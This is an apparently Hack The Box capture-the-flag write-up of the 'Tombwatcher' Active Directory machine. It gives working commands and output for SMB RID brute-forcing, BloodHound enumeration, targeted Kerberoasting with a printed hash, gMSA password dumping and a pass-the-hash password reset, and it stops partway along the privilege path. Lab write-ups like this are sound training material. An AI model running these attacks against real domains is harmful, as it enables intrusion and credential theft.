






# Tombwatcher 
___
_Diffeculty: MEDUIM_</br>
___

TL;DR
------------
 we are given some initial credential 

 [ henry / H3nry_987TGV! ]

the  goal is to infiltrate the active directory environement and achieve domain controller overtake.
to help with any active directory kind of attack i highly recommand this rescource by orage defence : <a href='https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg'>AD attack mind map</a>

----------------

- starting with nmap as usual
```bash
┌──(kali㉿kali)-[/tmp]
└─$ sudo nmap -sSVC -p- --min-rate=6000 10.10.11.72 -v
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-10 00:27:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a396:4dc0:104d:3c58:54e0:19e3:c2ae:0666
|_SHA-1: fe5e:76e2:d528:4a33:8adf:c84e:92e3:900e:4234:ef9c
|_ssl-date: 2025-06-10T00:28:50+00:00; +4h00m01s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a396:4dc0:104d:3c58:54e0:19e3:c2ae:0666
|_SHA-1: fe5e:76e2:d528:4a33:8adf:c84e:92e3:900e:4234:ef9c
|_ssl-date: 2025-06-10T00:28:50+00:00; +4h00m01s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-10T00:28:50+00:00; +4h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a396:4dc0:104d:3c58:54e0:19e3:c2ae:0666
|_SHA-1: fe5e:76e2:d528:4a33:8adf:c84e:92e3:900e:4234:ef9c
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-10T00:28:50+00:00; +4h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a396:4dc0:104d:3c58:54e0:19e3:c2ae:0666
|_SHA-1: fe5e:76e2:d528:4a33:8adf:c84e:92e3:900e:4234:ef9c
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49684/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h00m01s, deviation: 0s, median: 4h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required


```

- ok so quick things worth noting : 
    * http port 80 is open! with Microsoft-IIS/10.0
    * smb open and also ldap
    * there's this high port 9389 with .NET message framing i don't know what for!


- starting simple , let's try smb with the provided credentials.

```bash
┌──(kali㉿kali)-[/tmp]
└─$ nxc smb 10.10.11.72 --shares --rid-brute -u henry -p 'H3nry_987TGV!'
SMB         10.10.11.72     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.72     445    DC01             [+] tombwatcher.htb\henry:H3nry_987TGV! 
SMB         10.10.11.72     445    DC01             [*] Enumerated shares
SMB         10.10.11.72     445    DC01             Share           Permissions     Remark
SMB         10.10.11.72     445    DC01             -----           -----------     ------
SMB         10.10.11.72     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.72     445    DC01             C$                              Default share
SMB         10.10.11.72     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.72     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.72     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.72     445    DC01             498: TOMBWATCHER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.72     445    DC01             500: TOMBWATCHER\Administrator (SidTypeUser)
SMB         10.10.11.72     445    DC01             501: TOMBWATCHER\Guest (SidTypeUser)
SMB         10.10.11.72     445    DC01             502: TOMBWATCHER\krbtgt (SidTypeUser)
....                ....                ...                             ....
SMB         10.10.11.72     445    DC01             1103: TOMBWATCHER\Henry (SidTypeUser)
SMB         10.10.11.72     445    DC01             1104: TOMBWATCHER\Alfred (SidTypeUser)
SMB         10.10.11.72     445    DC01             1105: TOMBWATCHER\sam (SidTypeUser)
SMB         10.10.11.72     445    DC01             1106: TOMBWATCHER\john (SidTypeUser)
SMB         10.10.11.72     445    DC01             1107: TOMBWATCHER\Infrastructure (SidTypeGroup)
SMB         10.10.11.72     445    DC01             1108: TOMBWATCHER\ansible_dev$ (SidTypeUser)
SMB         10.10.11.72     445    DC01             1111: TOMBWATCHER\cert_admin (SidTypeUser)
                                                                                             
```

- ok so there's no none-standard shares that we can read!
- we also get a glimps into the users present in the AD.
- for the website on port 80 , it's just a standard IIS page , if we aer stack we may be back to it and try short name enumeration and other tricks lie ffuf on directories etc..
- now since we have creds for user , the go to way would be `bloodhound-python` 
, before  that make sure to add to /etc/hosts the following line
```
10.10.11.72 DC01.tombwatcher.htb   tombwatcher.htb
```
- we ready to go.
```
──(kali㉿kali)-[~/HTB/tombwatcher]
└─$ bloodhound-python -d tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' -gc tombwatcher.htb -c all

Traceback (most recent call last):
  File "/usr/bin/bloodhound-python", line 33, in <module>
    sys.exit(load_entry_point('bloodhound==1.7.2', 'console_scripts', 'bloodhound-python')())
             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^

```
now you will get this issue , that's because bloodhound uses you local gateway to as a resolver , and we want to use the remote ip to resolve , to do so you need to edit on the /etc/resolv.conf , commen you nameserver for now and add a new 

```
nameserver 10.10.11.72
#nameserver 192.168.23.2
search localdomain
```
- save and rerun the command again 
```bash
┌──(kali㉿kali)-[~/HTB/tombwatcher]
└─$ bloodhound-python -d tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' -gc tombwatcher.htb -c all

INFO: Found AD domain: tombwatcher.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.tombwatcher.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.tombwatcher.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.tombwatcher.htb
ERROR: Unhandled exception in computer DC01.tombwatcher.htb processing: The NETBIOS connection with the remote host timed out.

```
- notice that you will still get some error at the end due to timeout or something , but if you list the directory you're in you'll see a bunch of `.json` files which means the command has succeded .

- next up we start the neo4j , which is the databases upon which is based bloodhound , then run bloodhound.
- once we login to bloodhound with our configured creds , (mine are ; neo4j:admin). reset to delete old data and import you new .json files.

- once the injestion is finished , we get to check on what we can abuse and escalate out priviliges.
- our first hit, we can WriteSPN over alfred.


bloodhound puts it this way "The user HENRY@TOMBWATCHER.HTB has the ability to write to the "serviceprincipalname" attribute to the user ALFRED@TOMBWATCHER.HTB." , using this we can rewrite alfred password.

to abuse this we will use targetedKerberoast 

```
targetedKerberoast is a Python script that can, like many others (e.g. GetUserSPNs.py), 
print “kerberoast” hashes for user accounts that have a SPN set.
 This tool brings the following additional feature:
  for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute),
 print the “kerberoast” hash, and delete the temporary SPN set for that operation.
```
here's the command to do so 

```bash
┌──(kali㉿kali)-[/opt/AD-tools/targetedKerberoast]
└─$ python3 targetedKerberoast.py -d tombwatcher.htb  -u henry -p 'H3nry_987TGV!' --dc-ip 10.10.11.72
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[!] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)

```
- now another issue is the clock skew is greate , basically we need to synck the time between the remote the machine , and my machine to make it work , to achieve this :

```bash
└─$ sudo ntpdate tombwatcher.htb
2025-06-09 21:10:55.561519 (-0400) +14401.781750 +/- 0.065723 tombwatcher.htb 10.10.11.72 s1 no-leap
CLOCK: time stepped by 14401.781750
```
then rerun the command one again :

```bash
└─$ python3 targetedKerberoast.py -d tombwatcher.htb  -u henry -p 'H3nry_987TGV!' --dc-ip 10.10.11.72
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$47570a9730c8ca110c1a11d918f4725d$265928ad93efe5f5e7cd25f1d136194ac6a66d19c0c16e98ae23d912c0bfb99c31859e6cf376287bc160810cce6aafef7997be90f5ff74af5b6f1bd0d717dc3c9442393187d58d1dd48fdef804923ee67392dad6635a8f95af9038a5075b10b3bd69401ae66b998ed5df006dd96fc18653b90d36ce6e9c0f8aad0faccd0062818f2163894781c541480b32ab98fe7b0dead512dc8d7fec3fdc55b4894c03b7e4c6f28d381fe45b9163a89f8c30d60d5c0ae723dccd1781050bb790e647af482967f3f95f4764bf9ada990ba3db573ab55f50018c9991b1318e6604a640970bfa740ece3ae72f1432ca54fefdd8cad5a572e45b47ecefc10a977d891ffae243ca34ee3c91187c4973d7ef463d126b6737f4f3cd62b7ebb366d5569b07d699f7fbd4b532a20e2cb1dd56a42db60079e59c95a883fd2314eb6f9edeeac8053ec7ba1b5e27b275a3ab8f0b63686c7ba51104bc3792c119eb4d0aec5c75aab85911af33f1cb53070804032a1701cc11251d7de9a32a569411c2445dcf5ca2115ef8e8f86397fb86480d6813eb55a14e284b5a9c1a6c4b8e2ab18a0ecf6b55a78ef9ba3fc2e883c48306b76ae9bd351dcb1af05d3c404ac765fa8f70b713309313d93cdc246bc2db574dbaf3356decd0d6a04135d1b4cd8025b415eab077fbbcb6b5cfc23546563abb04c600d00d1112395ee69cab7cd6cb53d975df21ed7d926ce38b03e98cbd0c9eaf9da93a2eababaf5cf724269caa46afaf0234af7f550dafe0b1294eccaa662a3ff93bd978b94087ea2296fc7b76c946ea42d6dbe0401fa6ce4c0e59608cb5e2b0baafff79391c727b3ed5f988ab4819d98c3281c3c3495d1af07bf60a9d0154dbdb5ac4762cefc34cc782c3686b6a751609a074dd511baece43ab6af7a3ee8b02ae96d4230f1f78b6fb3d2b29617c1bfbb466b2dd5269543dc322504b367c736f49db3882803e4dcd667b6876d0546665e7e47d2ef324ff6dee6f7b001d40620ceb1479e3b87ffb11c8ed3918bb19fd36040d9380a2c06be0dbb6fddd14bb49fcba97aa0a18713e063259db4a25e02c76fba98ed23e942c90c6c63bf4c7146bbe0928519ca5b6e5aa2e4c195f0766b13e861c5597cf0e85e5be3bc42c6e700bf83ad1301b1b286bde4015b4858ea2c76b717b0813b19525d620e33d0a76095647b66a238c440a54241691dac96f27e939292f0d62fcbc68d1454f6695fa0324d621f24a436734379d307f56171a87d30775a1ccfff716253d191d37f46b1c045acdd38f04b531228a072845ba5580e4b50b51f80c52224f4fb9a0663629df27c1176d7db0655ccab49325c06fd936679fcf2a79fdfeec225993afdb3221904fb80e0c3de417134782291873fef7847a4fba4ffaa472dc29db2f32e70581e8a649ea282b55b78c64642e2ca347bc519c366bad2f0335bce089686c4a70b11527bec49c47c10456fc4d08bdb9fcc5d7

```
and there's out hash for alfred:

- finally crack the hash with hashcat to find the pass : `basketball`

- now we mark alfred as owned and we check what we can do with him.
- 2nd hit 


- so we as alfred we can add ourselves to the infrastructure group , very neet.
- let's check ahead first , we suppose we added ourself as alfred to the group what else can we do then 
- 3rd hit


- so let's first addself as alfred with this command

```bash
┌──(kali㉿kali)-[~/HTB/tombwatcher]
└─$ net rpc group members "INFRASTRUCTURE" -U tombwatcher.htb/alfred%'basketball' -S 10.10.11.72

```
- next let's readGMSApassword: 

```bash
└─$ python3 gMSADumper.py -u alfred -p 'basketball' -d tombwatcher.htb 
Users or groups who can read password for ansible_dev$:
 > Infrastructure
ansible_dev$:::1c37d00093dc2a5f25176bf2d474afdc
ansible_dev$:aes256-cts-hmac-sha1-96:526688ad2b7ead7566b70184c518ef665cc4c0215a1d634ef5f5bcda6543b5b3
ansible_dev$:aes128-cts-hmac-sha1-96:91366223f82cd8d39b0e767f0061fd9a

```
now that we have the ansible_dev hash out of the way , lets mark it as owned as well , and see that else we can access 
- 4th hit we can force password reset over sam user .


so let's set the sam password with pth-net , meaning pass the hash , since this is an NT hash  we replace the LM part with `ffffff` s 
```bash
┌──(kali㉿kali)-[~/HTB/tombwatcher]
└─$ pth-net rpc password "sam" "newP@ssword2022" -U "tombwatcher.htb/ansible_dev$"%"ffffffffffffffffffffffffffffffff":"1c37d00093dc2a5f25176bf2d474afdc" -S "tombwatcher.htb"

E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...

```

- we can check that it did work by trying smb with the password using `nxc`
```bash
┌──(kali㉿kali)-[/opt/AD-tools/gMSADumper]
└─$ nxc smb 10.10.11.72 -u 'sam' -p 'newP@ssword2022'
SMB         10.10.11.72     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.72     445    DC01             [+] tombwatcher.htb\sam:newP@ssword2022 
                                                                                                                                                                                      
```
- so we're sure it worked.

- once again mark sam as owned ,and check  new paths
- 5th hit



- sam has generic all and other privileges over john , we can abuse those to get john 
- after we get john we , see the he has access to generic all over cert_admins 

